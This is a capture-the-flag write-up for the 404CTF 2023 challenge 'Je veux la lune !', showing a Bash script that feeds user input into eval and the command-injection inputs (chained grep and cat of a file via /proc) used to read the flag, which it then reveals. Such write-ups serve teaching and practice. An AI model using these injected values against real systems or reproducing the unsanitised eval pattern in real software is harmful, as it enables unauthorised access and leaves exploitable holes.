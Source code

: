 ```yaml
---
title: CTFs | 404CTF_2023 | Pwn | Je veux la lune !
author: BatBato
date: 2023-06-08
categories: [CTFs, 404CTF_2023, Pwn]
tags: [Pwn, Command Injection, Injection]
permalink: /CTFs/404CTF_2023/Pwn/Je_veux_la_lune
---
```


# Je veux la lune !

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/f412c753-621a-4915-9b7e-5764fb208929)

The challenge gives us the following code:

```bash
#!/bin/bash
Caligula=Caius
listePersonnes="Cherea Caesonia Scipion Senectus Lepidus Caligula Caius Drusilla"
echo "Bonjour Caligula, ceci est un message de Hélicon. Je sais que les actionnaires de ton entreprise veulent se débarrasser de toi, je me suis donc dépêché de t'obtenir la lune, elle est juste là dans le fichier lune.txt !
En attendant j'ai aussi obtenu des informations sur Cherea, Caesonia, Scipion, Senectus, et Lepidus, de qui veux-tu que je te parle ?"
read personne
eval "grep -wie ^$personne informations.txt"

while true; do
    echo "
De qui d'autre tu veux que je te parle ?"
    read personne
    if [ -n $personne ] && [ $personne = "stop" ] ; then
    exit
    fi
    bob=$(grep -wie ^$personne informations.txt)
    if [ -z "$bob" ]; then
        echo "Je n'ai pas compris de qui tu parlais. Dis-moi stop si tu veux que je m'arrête, et envoie l'un des noms que j'ai cités si tu veux des informations."
    else
        echo $bob
    fi  
done
```

As we can see in the above code, there is no sanitization of the input `presonne`. So we can just type `404CTF flag.txt;grep -iRl 404CTF /; ls` (I used `flag.txt` but you can use anything you want) and we get:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/cb877376-7f51-41a6-98cf-736373181057)

> Note that we added `ls` at the end. This is just so that the final command looks like `grep -wie 404CTF flag.txt;grep -iRl 404CTF /; ls informations.txt `
{: .prompt-info}

Now we can run the command `404CTF flag.txt;cat /proc/self/task/3/cwd/lune.txt; ls` to get the flag:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/d83a2239-a8c0-4d17-b23b-dc6da1fbf71a)

The flag is `404CTF{70n_C0EuR_v4_7e_1Ach3R_C41uS}`
